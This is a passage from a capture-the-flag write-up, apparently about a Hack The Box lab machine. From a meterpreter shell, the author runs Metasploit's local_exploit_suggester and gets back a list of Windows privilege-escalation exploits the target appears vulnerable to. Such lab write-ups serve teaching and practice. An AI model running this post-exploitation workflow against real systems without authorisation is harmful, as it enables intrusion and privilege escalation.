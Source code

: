 As we can see, we are logged as IIS APPPOOL. We are not authority system so we don't have privileges. Let's try to run a post module in metasploit called suggester to see if we are able to scalate privs.

```bash
meterpreter > bg
[*] Backgrounding session 4...
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 4
session => 4
```

You can also run this command in meterpreter, the result will be the same:

```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

```bash
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
```